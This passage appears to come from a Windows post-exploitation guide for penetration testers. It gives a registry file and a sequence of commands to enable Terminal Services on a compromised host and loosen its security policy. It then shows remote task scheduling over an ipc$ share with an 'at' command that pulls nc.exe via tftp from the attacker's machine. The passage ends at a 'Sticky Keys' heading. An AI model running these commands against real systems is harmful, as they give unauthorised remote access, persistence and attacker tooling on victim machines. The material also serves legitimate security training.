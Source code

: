     <pre>

     Windows Registry Editor Version 5.00

     [HKEY_LOCAL_MACHINE\SYSTEM\CurrentControlSet\Control\Terminal Server]

     "fDenyTSConnections"=dword:00000000

     "TSEnabled"=dword:00000001

     "TSUserEnabled"=dword:00000000

    </pre>



 1. On the remote system, execute the following commands:

      

    <pre>c:\> sc config termservice start= auto sc config termservice start= auto

    c:\> regedit /s enable_ts.reg

    c:\> copy c:\windows\security\database\secedit.sdb c:\windows\security\database\new.secedit.sdb

    c:\> copy c:\windows\security\database\secedit.sdb c:\windows\security\database\orig.secedit.sdb

    c:\> secedit /configure /db new.secedit.sdb /cfg fix_ts_policy.ini

    c:\> gpupdate /Force

    c:\> net start "terminal services"

    </pre>





### Scheduler

The [Windows scheduler](http://support.microsoft.com/kb/313565) can be used to further compromise a system. It usually runs at the SYSTEM account privilege level. According to Val Smith's and Colin Ames' [BlackHat 2008 presentation (page 58)](http://www.blackhat.com/presentations/bh-usa-08/Smith_Ames/BH_US_08_Smith_Ames_Meta-Post_Exploitation.pdf), you can remotely schedule tasks using the commands below.



<pre>

c:\> net use \\[TargetIP]\ipc$ password /user:username

c:\> at \\[TargetIP] 12:00 pm command

</pre>



An example you might run on the remote system might be: `at \\192.168.1.1 12:00pm tftp -I [MyIP] GET nc.exe`





### Sticky Keys (Requires reboot)
